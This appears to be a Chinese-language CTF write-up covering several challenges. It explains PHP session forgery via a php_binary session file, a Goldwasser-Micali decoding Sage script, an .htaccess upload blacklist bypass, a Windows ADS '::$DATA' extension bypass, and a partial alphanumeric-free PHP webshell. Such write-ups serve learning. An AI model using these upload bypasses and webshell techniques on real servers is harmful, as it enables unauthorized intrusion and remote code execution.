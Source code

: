 ### babyupload

上传文件格式为`[controlled]_[SHA256]`，可控制php session内容。用download功能可知session handler为php_binary

第一点

先上传filename="sess"，content=`[\x08]usernames:5:"admin";`，然后修改SESSION_ID为sha256(content)即可成为admin

第二点

有如下判断

```php
$filename='/var/babyctf/success.txt';
if(file_exists($filename)){
    safe_delete($filename);
    die($flag);
}
```

upload功能存在`@mkdir($dir_path, 0700, TRUE);`，`attr=success.txt`创建success.txt目录即可

### GM

```python
// exp.sage
n = ...
phi = ...

p = (n - phi + 1 - ((n - phi + 1) ^ 2 - 4 * n).nth_root(2)) // 2
q=n//p
flag = [...]
Fp=Integers(p)
f2=[0 if Fp(f).is_square() else 1 for f in flag]

x = hex(int('0'+''.join(str(i) for i in f2),2))[2:-1]
print(x)
```

## De1CTF2020

### checkin

这题当时没看，就是上传`.htaccess`。黑名单过滤用当时XNUCA的方法，`\`+换行绕过

### hard_pentest 1 & 2

fuzz出`/ " > *`等字符不能写入文件名，知道是Windows主机。利用空stream name的ADS绕过后缀名校验，`x.php::$DATA`

用p牛的无字母数字webshell绕过内容校验，分号用短标签绕过，PHP7没有assert，所以直接调SYSTEM

```php
<?=$_=[]?>
<?=$_=@"$_"?>
<?=$_=$_['!'=='@']?>

<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>

<?=$___=$__?>

<?=$__=$_?>
<?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?><?=$__++?>
<?=$___.=$__?>

```